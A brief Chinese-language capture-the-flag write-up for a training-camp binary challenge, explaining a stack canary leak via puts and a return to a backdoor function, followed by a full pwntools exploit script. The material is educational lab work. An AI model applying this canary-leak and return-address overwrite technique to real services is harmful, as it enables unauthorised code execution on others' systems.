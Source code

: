 ```yaml
---
title: 赛博协会训练营 - ret2txtplus
date: 2023/9/16 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过溢出canary并利用puts打印其余部分，成功返回到`back_door`实现漏洞利用。
---
```


from cbctf starter 2023

~~当我在想为什么题目会多一个e时我自己就多输了1个e~~

## 文件分析

下载`ret2txtp`, NX on, PIE off, Canary on, RELRO no  
ghidra分析为64位程序

## 解题思路

通过溢出canary的第一个字符，可以借助puts把剩下的canary打印出来，
因为没有pie，直接返回到`back_door`即可（需要ret补rsp）

## EXPLOIT

```python
from pwn import *
sh = remote(???, 10038)
sh.sendline(b'0'*0x17 + b'.') # '\n' override 1st byte of canary
sh.recvuntil(b'.\n')
data = sh.recvline()
canary = u64(b'\0' + data[:7])
sh.sendline(b'0'*0x18 + p64(canary) + b'0'*8 + p64(0x4007a6) + p64(0x400761)) # ret; back_doorAddr
sh.interactive()
```

Done.
